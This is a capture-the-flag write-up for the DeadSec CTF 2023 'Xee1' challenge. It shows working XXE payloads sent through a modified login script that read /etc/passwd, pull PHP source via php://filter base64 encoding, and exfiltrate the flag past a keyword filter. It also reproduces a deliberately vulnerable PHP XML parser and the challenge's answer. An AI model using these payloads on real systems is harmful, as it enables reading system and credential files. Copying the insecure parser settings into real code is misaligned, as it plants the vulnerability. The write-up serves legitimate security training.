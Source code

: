 # Xee1 Challenge

## question 

flag in flag.txt

Url: https://www.deadsec.xyz/instances/xee1

Author: onsra

![screen-shot](./assets/xee1/screen1.png)


## answer

First, as you know, I searched for XEE in php and find somethings, so i tried to test my ideas with change original login js function:

```js

function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	// admin/admin
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "login.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

to:

```js
function doLogin() {
    var username = $("#username").val();
    var password = $("#password").val();
    // admin/admin
    if (username == "" || password == "") {
        alert("Please enter the username and password!");
        return;
    }

    var data = `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE user[<!ENTITY xxe SYSTEM "<my-inject-script>" >]><user><username>&xxe;</username><password>${password}</password></user>`; 
    $.ajax({
        type: "POST",
        url: "login.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
            console.log(result)
            var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
            var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
            if (code == "0") {
                $(".msg").text(msg + " login fail!");
            } else if (code == "1") {
                $(".msg").text(msg + " login success!");
            } else {
                $(".msg").text("error:" + msg);
            }
        },
        error: function (XMLHttpRequest, textStatus, errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    });
}
```

and i set some scripts instead of `<my-inject-script>`. first inject was `file:///etc/passwd` and i success to view content of file.

second try was view content of `login.php` file, but i could'nt, so i tried to encode content of file to base64 with:

```
php://filter/read=convert.base64-encode/resource=file:///var/www/html/login.php
```

and I success again, found login file content:

```php
<?php
ini_set('display_errors', 0);
$USERNAME = 'admin';
$PASSWORD = 'admin';
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		if (strpos($username, 'dead') !== false) {
			$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,"You can't read the flag");
		}
		else{
			$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
		}
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

then, i must to find `flag.txt` file, i different directories:

- `./flag.txt`
- `../flag.txt`
- `../../flag.txt`
- `/flag.txt`

and Boom!

> I also try to use `expect://ls` to get directory list, but failed!

this is my script to get content of `/flag.txt`:

```js
var data = `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE user[<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///flag.txt" >]><user><username>tghgfhj &xxe;</username><password>fff</password></user>`;
```

but server response:

```xml
<result><code>0</code><msg>You can't read the flag</msg></result>
```

so, i realized that file content includes `dead` string and based on login page code, its filtered, so i must to bypass it via base64 :)

```js
var data = `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE user[<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag.txt" >]><user><username>tghgfhj &xxe;</username><password>fff</password></user>`;
```

and get `ZGVhZHtuMWNlX2JyMF9YRTNfM3pfaDNoM30K` string to decode it:

**`dead{n1ce_br0_XE3_3z_h3h3}`**

## author

- name: DeadSec CTF 2023

- written by: madkne in 2023.05.20

- website: https://www.deadsec.xyz/
